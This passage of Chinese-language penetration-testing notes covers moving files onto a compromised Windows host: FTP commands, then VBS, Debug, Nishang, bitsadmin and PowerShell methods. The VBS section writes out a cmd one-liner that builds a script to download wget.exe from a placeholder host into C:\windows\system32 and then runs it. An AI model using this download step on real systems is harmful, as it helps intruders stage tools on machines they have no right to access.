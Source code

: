 | hash          | 显示#表示下载进度                              |
| mdelete       | 删除文件，模糊匹配                             |
| mget          | 下载文件，模糊匹配                             |
| mput          | 上传文件，模糊匹配                             |
| mkdir         | 在远端ftp服务器上，建立文件夹                  |
| newer         | 下载时，检测是不是新文件                       |
| prompt        | 关闭交互模式                                   |
| put           | 上传                                           |
| pwd           | 显示当前目录                                   |

[详细](http://imhuchao.com/323.html)

#### 7.2 利用 VBS 上传

cmd下：

```
echo Set xPost = CreateObject(^"Microsoft.XMLHTTP^"):xPost.Open ^"GET^",^"http://xxx/xxx/wget.exe^",0:xPost.Send():Set sGet = CreateObject(^"ADODB.Stream^"):sGet.Mode = 3:sGet.Type = 1:sGet.Open():sGet.Write(xPost.responseBody):sGet.SaveToFile ^"C:\windows\system32\wget.exe^",2 >down.vbs
```

接着运行：

```
cscript down.vbs
```

#### 7.3 利用 Debug 上传

Debug 是一个程序调试工具 . 

上传原理:

先将需要上传的 EXE 文件转换为十六进制 HEX 的形式, 再通过 echo 命令讲 HEX 代码写入文件 , 最后利用 Debug 功能将 HEX 代码编译并还原成 EXE 文件 .

[这里](https://www.cnblogs.com/xuyiqing/p/10353527.html)

#### 7.4 利用 Nishang 上传

[这里](https://blog.csdn.net/qq_17204441/article/details/89426393)

#### 7.5 利用 bitsadmin 下载

[这里](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/cc753856(v=ws.10)?redirectedfrom=MSDN)

#### 7.6 利用 powershell 下载

[这里](https://docs.microsoft.com/zh-cn/powershell/scripting/overview?view=powershell-7.1&viewFallbackFrom=powershell-6)



参考文章:

<<内网安全攻防>>

https://www.secpulse.com/archives/141744.html

https://www.secpulse.com/archives/140684.html